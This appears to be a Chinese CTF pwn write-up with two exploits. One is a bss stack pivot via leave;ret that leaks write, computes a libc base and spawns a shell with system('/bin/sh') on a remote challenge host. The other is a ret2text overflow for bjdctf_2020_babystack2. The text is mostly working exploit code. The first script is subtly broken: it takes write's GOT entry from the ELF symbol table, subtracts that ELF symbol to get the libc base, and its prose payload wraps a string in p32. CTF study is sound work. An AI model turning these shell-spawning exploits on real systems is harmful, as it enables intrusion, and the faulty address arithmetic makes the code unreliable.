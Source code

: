 其中s在bss段。

在read buf的位置正好可以覆盖返回地址，覆盖为s的地址，然后在s的地方写入构造好的payload。

s处：

>   p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

s：`0804A300`

先说下buf处payload的构造：`p32(0x18*'a') + p32(s_addr-4)+ p32(leave_ret)`

ebp指向save_rbp的位置，也就是填入p32(s_addr_4)的位置。然后将返回地址写为leave_ret 的地址。

首先，执行leave_ret(也就是mov rsp,rbp;pop rbp)，会将rsp和rbp通同时指向save_rbp的位置，然后pop rbp，将rbp指向bss段的s_addr-4的位置；再之后rsp再次进行leave_ret，执行完后这时rsp指向bss段s_addr-4的位置，rbp指向s_addr的位置。（pop rbp会将rbp+4）



```python
from pwn import *
context(log_level='debug')
#io = process("./spwn")
io = remote("node3.buuoj.cn",29713)
elf = ELF("./spwn")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
write_got = elf.sym['write']
main = elf.sym['main']
leave_ret = 0x08048408
s_addr = 0x0804A300
io.recvuntil("name?")
payload = p32(write_plt) + p32(main) + p32(1)+p32(write_got)+ p32(4)
io.sendline(payload)
io.recvuntil("say?")
payload1 = 0x18*'a'+p32(s_addr-4) + p32(leave_ret)
io.sendline(payload1)
write_addr = u32(io.recv(4))
base = write_addr - write_got
sys_addr = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = p32(sys_addr) + p32(main) + p32(bin_sh)
io.sendline(payload)
io.recvuntil("say?")
io.sendline(payload1)
io.interactive()
```

## 0x1F.bjdctf_2020_babystack2

ret2text

```python
from pwn import *
io = process("./bjdctf_2020_babystack2")
context(log_level='debug')
backdoor = 0x00400726
io.recv()
io.sendline("-1")
io.recv()
payload = 'a'*0x18 + p64(backdoor)
io.send(payload)
io.interactive()
```







